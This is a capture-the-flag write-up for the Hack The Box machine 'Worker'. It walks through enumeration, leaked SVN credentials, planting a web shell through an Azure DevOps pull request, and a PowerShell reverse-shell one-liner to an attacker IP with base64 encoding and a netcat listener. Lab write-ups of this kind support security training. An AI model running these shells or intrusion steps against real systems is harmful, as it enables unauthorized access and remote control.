---
search:
  exclude: true
---
# Worker Writeup

## Introduction :

Worker is a Medium Windows box released back in August 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → nmap -vvv -p- 10.10.10.203 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.10.10.203
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → nmap -sCV -p 80 10.10.10.203
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 12:27 CEST
    Nmap scan report for 10.10.10.203
    Host is up (0.47s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 10.0
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 19.16 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

As expected our nmap scan finds an IIS windows server http service on port 80. Now when you're on HTB and you just started a machine, some ports take more time to open up. and running the nmap scan once again reveals other ports:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → nmap -vvv -p- 10.10.10.203 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.10.10.203
    Discovered open port 5985/tcp on 10.10.10.203
    Discovered open port 3690/tcp on 10.10.10.203
    
    

So we run nmap on those ports to see what they are about:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → nmap -sCV -p5985,3690 10.10.10.203
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 13:00 CEST
    Nmap scan report for 10.10.10.203
    Host is up (0.47s latency).
    
    PORT     STATE SERVICE  VERSION
    3690/tcp open  svnserve Subversion
    5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 19.02 seconds
    
    

Now we know that we seem to have a MS-HTTPAPI on port 5985, and on port 3690 we have a **snvserver** service, let's enumerate it with **svn**
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → svn --help
    usage: svn  [options] [args]
    Subversion command-line client.
    Type 'svn help ' for help on a specific subcommand.
    Type 'svn --version' to see the program version and RA modules,
         'svn --version --verbose' to see dependency versions as well,
         'svn --version --quiet' to see just the version number.
    
    Most subcommands take file and/or directory arguments, recursing
    on the directories.  If no arguments are supplied to such a
    command, it recurses on the current directory (inclusive) by default.
    
    Available subcommands:
       add
       auth
       blame (praise, annotate, ann)
       cat
       changelist (cl)
       checkout (co)
       cleanup
       commit (ci)
       copy (cp)
       delete (del, remove, rm)
       diff (di)
       export
       help (?, h)
       import
       info
       list (ls)
       lock
       log
       merge
       mergeinfo
       mkdir
       move (mv, rename, ren)
       patch
       propdel (pdel, pd)
       propedit (pedit, pe)
       propget (pget, pg)
       proplist (plist, pl)
       propset (pset, ps)
       relocate
       resolve
       resolved
       revert
       status (stat, st)
       switch (sw)
       unlock
       update (up)
       upgrade
    
    Subversion is a tool for version control.
    For additional information, see http://subversion.apache.org/
    
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → svn checkout svn://10.10.10.203
    A    dimension.worker.htb
    A    dimension.worker.htb/LICENSE.txt
    A    dimension.worker.htb/README.txt
    A    dimension.worker.htb/assets
    A    dimension.worker.htb/assets/css
    A    dimension.worker.htb/assets/css/fontawesome-all.min.css
    A    dimension.worker.htb/assets/css/main.css
    A    dimension.worker.htb/assets/css/noscript.css
    A    dimension.worker.htb/assets/js
    A    dimension.worker.htb/assets/js/breakpoints.min.js
    A    dimension.worker.htb/assets/js/browser.min.js
    A    dimension.worker.htb/assets/js/jquery.min.js
    A    dimension.worker.htb/assets/js/main.js
    A    dimension.worker.htb/assets/js/util.js
    A    dimension.worker.htb/assets/sass
    A    dimension.worker.htb/assets/sass/base
    A    dimension.worker.htb/assets/sass/base/_page.scss
    A    dimension.worker.htb/assets/sass/base/_reset.scss
    A    dimension.worker.htb/assets/sass/base/_typography.scss
    A    dimension.worker.htb/assets/sass/components
    A    dimension.worker.htb/assets/sass/components/_actions.scss
    A    dimension.worker.htb/assets/sass/components/_box.scss
    A    dimension.worker.htb/assets/sass/components/_button.scss
    A    dimension.worker.htb/assets/sass/components/_form.scss
    A    dimension.worker.htb/assets/sass/components/_icon.scss
    A    dimension.worker.htb/assets/sass/components/_icons.scss
    A    dimension.worker.htb/assets/sass/components/_image.scss
    A    dimension.worker.htb/assets/sass/components/_list.scss
    A    dimension.worker.htb/assets/sass/components/_table.scss
    A    dimension.worker.htb/assets/sass/layout
    A    dimension.worker.htb/assets/sass/layout/_bg.scss
    A    dimension.worker.htb/assets/sass/layout/_footer.scss
    A    dimension.worker.htb/assets/sass/layout/_header.scss
    A    dimension.worker.htb/assets/sass/layout/_main.scss
    A    dimension.worker.htb/assets/sass/layout/_wrapper.scss
    A    dimension.worker.htb/assets/sass/libs
    A    dimension.worker.htb/assets/sass/libs/_breakpoints.scss
    A    dimension.worker.htb/assets/sass/libs/_functions.scss
    A    dimension.worker.htb/assets/sass/libs/_mixins.scss
    A    dimension.worker.htb/assets/sass/libs/_vars.scss
    A    dimension.worker.htb/assets/sass/libs/_vendor.scss
    A    dimension.worker.htb/assets/sass/main.scss
    A    dimension.worker.htb/assets/sass/noscript.scss
    A    dimension.worker.htb/assets/webfonts
    A    dimension.worker.htb/assets/webfonts/fa-brands-400.eot
    A    dimension.worker.htb/assets/webfonts/fa-brands-400.svg
    A    dimension.worker.htb/assets/webfonts/fa-brands-400.ttf
    A    dimension.worker.htb/assets/webfonts/fa-brands-400.woff
    A    dimension.worker.htb/assets/webfonts/fa-brands-400.woff2
    A    dimension.worker.htb/assets/webfonts/fa-regular-400.eot
    A    dimension.worker.htb/assets/webfonts/fa-regular-400.svg
    A    dimension.worker.htb/assets/webfonts/fa-regular-400.ttf
    A    dimension.worker.htb/assets/webfonts/fa-regular-400.woff
    A    dimension.worker.htb/assets/webfonts/fa-regular-400.woff2
    A    dimension.worker.htb/assets/webfonts/fa-solid-900.eot
    A    dimension.worker.htb/assets/webfonts/fa-solid-900.svg
    A    dimension.worker.htb/assets/webfonts/fa-solid-900.ttf
    A    dimension.worker.htb/assets/webfonts/fa-solid-900.woff
    A    dimension.worker.htb/assets/webfonts/fa-solid-900.woff2
    A    dimension.worker.htb/images
    A    dimension.worker.htb/images/bg.jpg
    A    dimension.worker.htb/images/overlay.png
    A    dimension.worker.htb/images/pic01.jpg
    A    dimension.worker.htb/images/pic02.jpg
    A    dimension.worker.htb/images/pic03.jpg
    A    dimension.worker.htb/index.md
    A    moved.txt
    Checked out revision 5.
    
    

So now we have a domain name **dimension.worker.htb** so let's add it to our hosts file:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/worker]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.203 dimension.worker.htb worker.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 worker.htb
    PING dimension.worker.htb (10.10.10.203) 56(84) bytes of data.
    64 bytes from dimension.worker.htb (10.10.10.203): icmp_seq=1 ttl=127 time=467 ms
    
    --- dimension.worker.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 466.764/466.764/466.764/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 dimension.worker.htb
    PING dimension.worker.htb (10.10.10.203) 56(84) bytes of data.
    64 bytes from dimension.worker.htb (10.10.10.203): icmp_seq=1 ttl=127 time=468 ms
    
    --- dimension.worker.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 467.971/467.971/467.971/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/worker]
    →
    

Now we enumerate the snv service further, since running svn checkout gave us revision 5 we now run svn diff to view the changes for revisions 2-3:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → svn diff -r 2
    Index: deploy.ps1
    ===================================================================
    --- deploy.ps1  (revision 2)
    +++ deploy.ps1  (nonexistent)
    @@ -1,6 +0,0 @@
    -$user = "nathen"
    -$plain = "wendel98"
    -$pwd = ($plain | ConvertTo-SecureString)
    -$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
    -$args = "Copy-Site.ps1"
    -Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
    Index: moved.txt
    ===================================================================
    --- moved.txt   (nonexistent)
    +++ moved.txt   (revision 5)
    @@ -0,0 +1,5 @@
    +This repository has been migrated and will no longer be maintaned here.
    +You can find the latest version at: http://devops.worker.htb
    +
    +// The Worker team :)
    +
    
    

Now here we get a hint towards a certain **deploy.ps1** file, and a certain **devops.worker.htb** subdomain which we will add to our hosts file. We seem to also get credentials **nathen:wendel98**. Attempting to get to http://devops.worker.htb gives us a basicauth login prompt onto which we use nathen's credentials:

 

And we get access to an Azure DevOps webpage into which we seem to be logged in as the user ekenas. We navigate into the SmartHotel 360 repository and we see the following project:

When we take a look at the pipelines we see the following:

 

Now here we get more infos, there seen to be a W:\ drive onto which there is a website root directory.Now let's navigate to the repo itself and clone it:

    
    
     
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → git clone http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
    Cloning into 'spectral'...
    Username for 'http://devops.worker.htb': nathen
    Password for 'http://nathen@devops.worker.htb':
    remote: Azure Repos
    remote: Found 57 objects to send. (84 ms)
    Unpacking objects: 100% (57/57), 1.34 MiB | 150.00 KiB/s, done.
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → ls -lash dimension.worker.htb
    total 56K
    4.0K drwxr-xr-x 4 nothing nothing 4.0K Jun 27 13:03 .
    4.0K drwxr-xr-x 5 nothing nothing 4.0K Jun 27 13:54 ..
    4.0K drwxr-xr-x 6 nothing nothing 4.0K Jun 27 13:03 assets
    4.0K drwxr-xr-x 2 nothing nothing 4.0K Jun 27 13:03 images
     16K -rw-r--r-- 1 nothing nothing  15K Jun 27 13:03 index.html
     20K -rw-r--r-- 1 nothing nothing  17K Jun 27 13:03 LICENSE.txt
    4.0K -rw-r--r-- 1 nothing nothing  771 Jun 27 13:03 README.txt
    
    

Now from here, we have access to the files of **spectral.worker.htb** so what we can do is upload an .aspx command webshell onto the repository since we have nathen's credentials. Obviously as we saw earlier we also have access to the website itself after we add it to our hosts file:

So we should be able to upload our cmd webshell and also browse to it.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [~/HTB/worker]
    → cd spectral
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → ls -lash
    total 80K
    4.0K drwxr-xr-x 5 nothing nothing 4.0K Jun 27 13:54 .
    4.0K drwxr-xr-x 5 nothing nothing 4.0K Jun 27 13:57 ..
    4.0K drwxr-xr-x 6 nothing nothing 4.0K Jun 27 13:54 assets
     20K -rw-r--r-- 1 nothing nothing  18K Jun 27 13:54 elements.html
    8.0K -rw-r--r-- 1 nothing nothing 4.9K Jun 27 13:54 generic.html
    4.0K drwxr-xr-x 8 nothing nothing 4.0K Jun 27 13:54 .git
    4.0K drwxr-xr-x 2 nothing nothing 4.0K Jun 27 13:54 images
    8.0K -rw-r--r-- 1 nothing nothing 6.9K Jun 27 13:54 index.html
     20K -rw-r--r-- 1 nothing nothing  17K Jun 27 13:54 LICENSE.txt
    4.0K -rw-r--r-- 1 nothing nothing 1.3K Jun 27 13:54 README.txt
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx cmd.aspx
    
    

Now we try to do a git commit to push our cmd webshell to the repository:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git add .
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git commit -m 'nihilist'
    [master 667034b] nihilist
     1 file changed, 42 insertions(+)
     create mode 100755 cmd.aspx
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git push
    Username for 'http://devops.worker.htb': nathen
    Password for 'http://nathen@devops.worker.htb':
    Enumerating objects: 4, done.
    Counting objects: 100% (4/4), done.
    Delta compression using up to 4 threads
    Compressing objects: 100% (3/3), done.
    Writing objects: 100% (3/3), 977 bytes | 977.00 KiB/s, done.
    Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
    remote: Analyzing objects... (3/3) (94 ms)
    remote: Storing packfile... done (252 ms)
    remote: Storing index... done (142 ms)
    To http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
     ! [remote rejected] master -> master (TF402455: Pushes to this branch are not permitted; you must use a pull request to update this branch.)
    error: failed to push some refs to 'http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral'
    
    

Doesnt work so we just create a new branch:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git branch nihilist
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git checkout nihilist
    Switched to branch 'nihilist'
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git push --set-upstream origin nihilist
    Username for 'http://devops.worker.htb': nathen
    Password for 'http://nathen@devops.worker.htb':
    Enumerating objects: 4, done.
    Counting objects: 100% (4/4), done.
    Delta compression using up to 4 threads
    Compressing objects: 100% (3/3), done.
    Writing objects: 100% (3/3), 977 bytes | 977.00 KiB/s, done.
    Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
    remote: Analyzing objects... (3/3) (4 ms)
    remote: Storing packfile... done (23 ms)
    remote: Storing index... done (27 ms)
    To http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
     * [new branch]      nihilist -> nihilist
    Branch 'nihilist' set up to track remote branch 'nihilist' from 'origin'.
    
    

This time our branch managed to get pushed, now we return to the azure git web interface, and we see our new branch:



Here we see our new branch, so we return to master to create a pull request in order to merge our repository into the master branch:



We basically need to add a random work item and then we just click **Create** :

Note: the git branches are regularly cleaned up so you need to create your PR and merge it quickly. Once the PR is created, we need to approve it:

 

Once it's approved we complete the branch merge:

 

And now our cmd.aspx file should be uploaded:

  

So now we get command execution as the **iis apppool\defaultapppool** user.



And as we can see, this box resets even the merges we did regularly, so we redo a PR to spawn a shell the second time once we are in cmd.aspx, we will use **Invoke-PowerShellTcpOneLine.ps1** :
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → locate Invoke-PowerShellTcp
    /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
    /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
    /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → locate Invoke-PowerShellTcpOneLine.ps1
    /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → cp $(locate Invoke-PowerShellTcpOneLine.ps1) .
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → vim Invoke-PowerShellTcpOneLine.ps1
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → cat Invoke-PowerShellTcpOneLine.ps1
    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.11",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    

Now to be able to transfer it to the windows box, we need to convert it to a base64 format that windows will accept, to do so we use **iconv -t utf-16le** you won't see the difference without using xxd:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → cat Invoke-PowerShellTcpOneLine.ps1
    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.11",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → cat Invoke-PowerShellTcpOneLine.ps1| iconv -t utf-16le
    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.11",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → cat Invoke-PowerShellTcpOneLine.ps1| xxd
    00000000: 2463 6c69 656e 7420 3d20 4e65 772d 4f62  $client = New-Ob
    00000010: 6a65 6374 2053 7973 7465 6d2e 4e65 742e  ject System.Net.
    00000020: 536f 636b 6574 732e 5443 5043 6c69 656e  Sockets.TCPClien
    00000030: 7428 2231 302e 3130 2e31 342e 3131 222c  t("10.10.14.11",
    00000040: 3930 3031 293b 2473 7472 6561 6d20 3d20  9001);$stream =
    [...]
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → cat Invoke-PowerShellTcpOneLine.ps1| iconv -t utf-16le | xxd
    00000000: 2400 6300 6c00 6900 6500 6e00 7400 2000  $.c.l.i.e.n.t. .
    00000010: 3d00 2000 4e00 6500 7700 2d00 4f00 6200  =. .N.e.w.-.O.b.
    00000020: 6a00 6500 6300 7400 2000 5300 7900 7300  j.e.c.t. .S.y.s.
    00000030: 7400 6500 6d00 2e00 4e00 6500 7400 2e00  t.e.m...N.e.t...
    00000040: 5300 6f00 6300 6b00 6500 7400 7300 2e00  S.o.c.k.e.t.s...
    00000050: 5400 4300 5000 4300 6c00 6900 6500 6e00  T.C.P.C.l.i.e.n.
    00000060: 7400 2800 2200 3100 3000 2e00 3100 3000  t.(.".1.0...1.0.
    [...]
    
    

So we convert our powershell reverse shell one liner to **utf-16le** and then to base64 without new lines (we use **-w0**):
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → cat Invoke-PowerShellTcpOneLine.ps1| iconv -t utf-16le | base64 -w0
    JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAxACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkACgA=
    
    

Now that's ready we prepare our netcat listener on port 9001:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/29 ] [HTB/worker/spectral]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    
    

And once we merged our nihilist git branch again we could use the following command on our aspx webshell:
    
    
    /c powershell -enc BASE64ONELINERREVSHELLSTRING
    
    

Or we can just upload a reverse shell .aspx file directly:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [HTB/worker/spectral]
    → wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
    --2021-06-27 16:00:31--  https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.110.133, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 15968 (16K) [text/plain]
    Saving to: ‘shell.aspx’
    
    shell.aspx                                                      100%[======================================================================================================================================================>]  15.59K  --.-KB/s    in 0.03s
    
    2021-06-27 16:00:32 (491 KB/s) - ‘shell.aspx’ saved [15968/15968]
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [HTB/worker/spectral]
    → vim shell.aspx
    # we change the destination ip and destination port to be 10.10.14.11 and port 9001
    #        protected void Page_Load(object sender, EventArgs e)
    #    {
    #            String host = "10.10.14.11"; //CHANGE THIS
    #            int port = 9002; ////CHANGE THIS
    #
    #	[...]
    
